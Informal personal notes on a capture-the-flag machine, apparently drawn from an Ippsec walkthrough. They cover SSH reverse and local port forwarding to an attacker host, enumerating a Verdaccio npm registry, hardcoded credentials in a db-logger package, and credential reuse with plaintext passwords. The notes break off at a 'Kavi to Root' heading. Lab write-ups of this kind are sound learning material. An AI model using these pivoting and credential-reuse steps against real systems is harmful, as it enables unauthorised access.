 From my notes on ssh port forwarding without using the ssh subshell ~C
```bash
# Syntax: ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R $Attacker_IP:$Listening_port:$remotes_127-0-0-1:$port_forwarded_through attacker@$Attacker_IP
```

But that would also involve password across the wire, so:
```bash
~C
-L 4873:localhost:4873
```
From the localhost of the connecting ssh session use port 4873 forward the localhost of the connected to remote host 4873.

[Verdaccio](https://verdaccio.org/) - *"is a simple, zero-config-required local private NPM registry. No need for an entire database just to get started..."*
![](bigverdaccio.png)

For the method:
![](sadsploitnofindaccio.png)
And credential reuse:
`mark: 2020bestyearofmylife` failed

The instructions are on screen, because it is a CTF. So we use the local npm.
![](nodepocketmanger.png)

Registry in this sense is the key value pair of packages stored and sharable.
![1080](regsitryequalpackagemanager.png)
db-logger is authored by target of potential privesc

Abusing or legitmate use of nmp as if permissions can alter applications that use it 
```bash
npm install $package --registry $registry

# Search a registry
npm search ---registry http://$target:$port
```

Importantly for concious methodology - "Consider objectives(?!)":
- How does the db-logger by the name probably logging the interactions with a db - database
	- Database = credentials, db-to-host persistence and sometimes exploits
	- Code that is not just-in-time access is often hardcoded
![](butalsohardcodedcredentials.png)

Mitigation for this from myself not Ippsec is to use just-in-time services to provide and manage credentials on deployment in the cloud, rather than hardcode it. 

More credntial reuse with 
`Kavi : IhateMathematics123#`

## Kavi to Root

